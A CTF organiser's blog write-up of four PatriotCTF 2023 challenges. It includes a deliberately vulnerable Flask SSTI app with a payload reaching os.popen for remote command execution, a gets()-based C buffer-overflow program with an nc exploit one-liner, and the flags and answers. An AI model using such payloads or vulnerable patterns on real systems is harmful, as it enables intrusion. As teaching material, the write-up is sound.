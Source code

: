 ```yaml
---
layout: post
title: PatriotCTF 2023 - Writeup
excerpt: "A  writeup for all the challenges I created for PatriotCTF 2023"
categories: [Guides, Learn]
tags: [web, misc, pwn]
---
```

<p align="center">
  <img src="https://competitivecyber.club/assets/patriotctf/img/patriotctf2021-banner-semitransparent.png" alt="PCTF Logo">
</p>

# PatriotCTF 2023
This year, we (Competitive Cyber at Mason) hosted PatriotCTF 2023. This was a CTF that was designed to be a bit more beginner friendly, but still have some challenges that would be fun for more experienced players. I created 4 challenges for this CTF, and I will be writing up the solutions for them here.

## Challenges

### [Web] - Pick Your Starter
#### Description
> No one seems to be able to guess my favorite animal... Can you?
#### Solution
This is a decently simple SSTI challenge with a blacklist, here is the source code for the `app.py` file:

```python
from flask import Flask, render_template, render_template_string

app = Flask(__name__)
app.static_folder = 'static'

starter_pokemon = {
    "charmander" : {
        "name": "Charmander",
        "type": "Fire",
        "abilities": ["Blaze", "Solar Power"],
        "height": "0.6m",
        "weight": "8.5 kg",
        "description": "Charmander is a Fire-type Pokémon known for its burning tail flame.",
        "picture": "https://assets.pokemon.com/assets/cms2/img/pokedex/full/004.png"
    },
    "bulbasaur" : {
        "name": "Bulbasaur",
        "type": "Grass/Poison",
        "abilities": ["Overgrow", "Chlorophyll"],
        "height": "0.7m",
        "weight": "6.9 kg",
        "description": "Bulbasaur is a dual-type Grass/Poison Pokémon known for the plant bulb on its back.",
        "picture": "https://archives.bulbagarden.net/media/upload/f/fb/0001Bulbasaur.png"
    },
    "squirtle" : {
        "name": "Squirtle",
        "type": "Water",
        "abilities": ["Torrent", "Rain Dish"],
        "height": "0.5m",
        "weight": "9.0 kg",
        "description": "Squirtle is a Water-type Pokémon known for its water cannons on its back.",
        "picture": "https://static.pokemonpets.com/images/monsters-images-800-800/7-Squirtle.webp"
    },
}

def blacklist(string):
    block = ["config", "update", "builtins", "\"", "'", "`", "|", " ", "[", "]", "+", "-"]
    
    for item in block:
        if item in string:
            return True
    return False


@app.route('/')
def index():
    render = render_template('index.html')
    return render_template_string(render)


@app.route('/<pokemon>')
def detail(pokemon):
    pokemon = pokemon.lower()
    try:
        render = render_template('pokemon_name.html', data=starter_pokemon[pokemon])
        return render_template_string(render)
    except:
        if blacklist(pokemon):
            return render_template('error.html')
            
        render = render_template('404.html', pokemon=pokemon)
        return render_template_string(render)

if __name__ == '__main__':
    app.run(debug=True)
```
You can see that there is a blacklist function that will block any input that contains any of the characters in the `block` list. However, if you look at the blacklist function, you can see that it does not block the `.` character. We can use this to our advantage to get RCE.

To do this, we can use the following payload: `http://chal.pctf.competitivecyber.club:5555/%7B%7Burl_for.__globals__.os.__dict__.popen(request.args.file).read()%7D%7D?file=cat%20../flag.txt`. This will allow us to execute the `cat /flag.txt` command on the server. We can then use this to read the flag file: `PCTF(wHOS7H47PoKEmoN)`.
![](https://i.imgur.com/D0TW1fJ.png)

### [pwn] - guessinggame
#### Description
> No one seems to be able to guess my favorite animal... Can you?
#### Solution
This is a pretty simple pwn challenge, you are given a binary that asks you to guess the favorite animal of the creator. If you guess correctly, you oddly still don't get the flag. Here's why:

Looking at the original source for the binary:
```c
#include <stdio.h>
#include <string.h>

void outputFlag() {
    char flag[35];
    FILE* pctfFlag = fopen("flag.txt", "r");

    if (pctfFlag == NULL) {
        printf("Unable to find flag.txt :(");
    } else {
        fgets(flag, 35, pctfFlag);
        printf("%s", flag);
    }
    fclose(pctfFlag);
}

int check(){
    char input[300];
    char favAnimal[8] = "Giraffe";
    int priv = 0;
    
    printf("Input guess: ");
    gets(input);

    if(strcmp(input, favAnimal)) {
        printf("ERRR! Wrong!\n");
    }
    else {
        printf("That's not my favorite animal... I promise!\n");
    }
    if(priv) {
        printf("I wasn't able to trick you...\n");
        outputFlag();
    }
}

int main(){
    printf("Hello there, friend! Can you guess my favorite animal?\n");
    check();
    return 0;
}
```
We can see that the check function is where the comparison is made, and if we guess correctly, we get the message `That's not my favorite animal... I promise!`. However, if we look at the check function, we can see that there is a variable called `priv` that is set to 0. If we can somehow set this to 1, we will get the flag.

To do this, we can use a buffer overflow. If we input a string that is longer than 300 characters, we will overflow the buffer and overwrite the value of `priv`. We can use python to do this for us:
```python
python3 -c "print('pctf'*76)" | nc chal.pctf.competitivecyber.club 9999
```
![](https://i.imgur.com/3bSFFYQ.png)
### [rev] - Wing_it
#### Description
> I'm just gonna wing it
Unfortunately, due to some technical issues we had to take this challenge down at the beginning of the CTF and were not able to get it back up in time. I will be releasing the challenge and solution here.

#### Solution
You are provided a binary that you must reverse called wing_it. 

You were asked to answer four trivia questions, the last of which did not fully give you the question needing you to reverse the binary in order to get it. 

The correct solution for each question is as follows:
1. the Concorde!
2. duh it's the Vin Fiz Flyer
3. AMeriCan aiRLiNEs
4. 100298


### [misc] - Uh Oh!
#### Description
> Uh Oh! While trying to add passwords to my wordlist, I accidentally added my own phone number! Can you tell me what line it's on?
> https://en.wikipedia.org/wiki/North_American_Numbering_Plan#Modern_plan
> Format: PCTF{linenumber_phonenumonlynumbers}


#### Solution
This was a pretty simple regex challenge, if you take a look at the wikipedia link provided, you can see that we are spefically looking for a number in the format `(NPA) NXX-XXXX`. 
![](https://i.imgur.com/vXBS24j.png)
If you adjust your regex accordingly, and run it against the provided wordlist, you will get the flag `PCTF{7731484_4043037283}`. 

I used the regex: `^[(][0-9]{3}[)][[:space:]][0-9]{3}[-][0-9]{4,6}$`
![](https://i.imgur.com/IOH7kXp.png)

Final command: `grep -E "^[(][0-9]{3}[)][[:space:]][0-9]{3}[-][0-9]{4,6}$" -n rockyou.txt`

## Conclusion
This was a really fun CTF to create, and I hope you enjoyed playing it! If you have any questions, feel free to reach out to me on any of my socials.


